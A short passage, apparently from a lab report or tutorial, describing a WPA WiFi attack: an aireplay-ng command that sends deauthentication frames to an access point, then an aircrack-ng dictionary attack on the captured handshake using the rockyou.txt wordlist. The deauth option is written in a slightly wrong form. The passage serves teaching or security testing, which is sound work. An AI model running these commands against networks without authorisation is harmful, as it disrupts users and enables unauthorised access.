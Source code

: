 With the following command, 10 deauthentication frames are sent to the AP:

\lstinline[]|aireplay-ng -deauth 10 -a [router bssid] interface|

After capturing the authentication handshake, a dictionary attack is performed to crack the password, which in this case utilizes the "rockyou.txt" password list, built into kali linux, to brute force the password.

\lstinline[]|aircrack-ng -b [bssid of router] -w [path to word list] [path to capture packets]| starts to interate through the password list, computes the PSK for each password and compares it to the captured PSK.


